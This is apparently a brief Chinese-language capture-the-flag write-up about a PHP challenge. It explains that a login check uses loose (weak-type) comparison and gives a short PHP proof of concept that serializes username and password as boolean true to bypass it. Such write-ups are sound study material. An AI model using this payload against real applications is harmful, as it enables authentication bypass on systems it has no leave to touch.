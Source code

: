 题目误导性地定义了user和passwd的值，但是这其实是弱类型比较，所以构造反序列化poc

```php
<?php
$ab=array(
  'username'=>true,
	'password'=>true,
);
$b=serialize($ab);
echo $b;
?>
```

参考：https://www.nssctf.cn/note/set/2921